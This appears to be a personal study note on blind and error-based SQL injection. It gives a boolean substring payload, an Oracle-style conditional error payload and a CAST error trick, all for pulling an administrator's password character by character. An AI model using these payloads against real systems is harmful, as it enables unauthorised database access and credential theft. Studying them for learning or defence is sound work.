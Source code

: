 #sql [[SQLi]]
determine if the first symbol of password is greater than 'm':
```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

then try next symbol and so on.

##### Error based SQL
```sql
(SELECT CASE WHEN ((select substr(password,6,1) from users where username='administrator')='a') THEN '' ELSE TO_CHAR(1/0) END FROM dual)
```
convert one type to another
```sql
CAST((SELECT example_column FROM example_table) AS int)
```
example_column value will be displayed in the error
